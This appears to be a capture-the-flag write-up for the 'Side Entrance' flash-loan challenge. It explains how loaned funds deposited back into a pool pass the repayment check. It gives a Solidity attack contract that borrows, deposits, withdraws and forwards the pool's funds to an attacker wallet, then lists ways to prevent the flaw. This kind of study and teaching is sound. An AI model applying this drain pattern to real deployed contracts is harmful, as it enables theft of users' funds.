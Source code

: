 ## Problems

```SideEntranceLenderPool``` have ```deposit()``` and ```withdraw``` function which allow to change the balance of contract. Something that must be consider here is the contract doesn't prevent an account to deposited the loan fund. 
```js
///SideEntranceLenderPool.sol

function deposit() external payable {
    balances[msg.sender] += msg.value;
}

function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```
Because of these 2 function, we can ```withdraw()``` the entire fund on contract by simply deposit the loaned fund and make our balances increased then withdraw it. The transaction will not be reverted because this contract only check if balance after loan and before loan is same.
```js
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
```

## How to Attack
we can simply attack the smart contract with contract that contain 2 function, one for call ```flashLoan()``` and one named ```execute()``` which have to call ```deposit``` in pool contract. The function can be like this:
```js
///SideEntranceAttack.sol
...

///function to begin attack 
function attack(uint256 _amount,address attacker) external {
    ///begin the attack with calling flashLoan
    pool.flashLoan(_amount);

    ///withdraw
    pool.withdraw();

    ///send the fund to attacker wallet
    (bool success,)=attacker.call{value:address(this).balance}("");
    require(success);
}

///function named execute() to called by pool contract
function execute() external payable {
    ///deposit to pool
    pool.deposit{value:address(this).balance}();
}

...
```
full attack contract can be checked <a href=../../contracts/attacker-contracts/side-entrance/SideEntranceAttack.sol>here</a>.

## Lesson and How to Prevent 

1. prevent user to Deposit the loaned fund, make a modifier.
2. it's a bad idea if a flash loan contract have another payable function than receive().
3. we can use WETH instead and force the loaner to send WETH in the end of flashLoan() function. 